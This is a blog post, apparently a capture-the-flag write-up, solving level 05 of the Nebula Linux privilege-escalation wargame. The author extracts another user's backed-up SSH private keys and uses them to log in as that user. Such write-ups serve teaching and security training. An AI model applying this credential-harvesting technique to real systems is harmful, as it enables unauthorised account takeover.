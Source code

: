 ```yaml
---
layout: post
title: "Exploit Exercises - Nebula 05"
date: "2011-12-06T05:24:00-05:00"
comments: true
categories:
 - Nebula
 - wargames
 - linux
 - exploit-exercises
 - hacking
---
```


So going forward to the [Nebula 05](http://exploit-exercises.com/nebula/level05), we now have to find some sort of weak permissions somewhere to escalate from level05 to flag05.  In searching through the flag05 home directory, I saw a ".backup" folder containing a copy of the user's old ssh keys. I extracted the archive to the level05 user's directory, so they could be used.

<!-- more -->

```
level05@nebula:/home/flag05$ cd .backup
level05@nebula:/home/flag05/.backup$ tar -xzvf backup-19072011.tgz -C /home/level05
.ssh/
.ssh/id_rsa.pub
.ssh/id_rsa
.ssh/authorized_keys
```

Once that was setup, I simply tried to SSH back to the local machine but using the flag05 user, since I had their authentication keys.  Luckily it was secured *only* with keys, and not a password as well.  This let me right in.

```
level05@nebula:/home/flag05/.backup$ ssh flag05@localhost
The authenticity of host 'localhost (127.0.0.1)' can't be established.
ECDSA key fingerprint is ea:8d:09:1d:f1:69:e6:1e:55:c7:ec:e9:76:a1:37:f0.
Are you sure you want to continue connecting (yes/no)? yes
Warning: Permanently added 'localhost' (ECDSA) to the list of known hosts.

      _   __     __          __
     / | / /__  / /_  __  __/ /___ _
    /  |/ / _ \/ __ \/ / / / / __ `/
   / /|  /  __/ /_/ / /_/ / / /_/ /
  /_/ |_/\___/_.___/\__,_/_/\__,_/

    exploit-exercises.com/nebula


For level descriptions, please see the above URL.

To log in, use the username of "levelXX" and password "levelXX", where
XX is the level number.

Currently there are 20 levels (00 - 19).


Welcome to Ubuntu 11.10 (GNU/Linux 3.0.0-12-generic i686)

* Documentation:  https://help.ubuntu.com/
Last login: Fri Dec  2 04:36:54 2011 from localhost
flag05@nebula:~$ getflag
You have successfully executed getflag on a target account
flag05@nebula:~$
```

After getting in, I ran the "getflag" command, in case it does store the results somewhere.
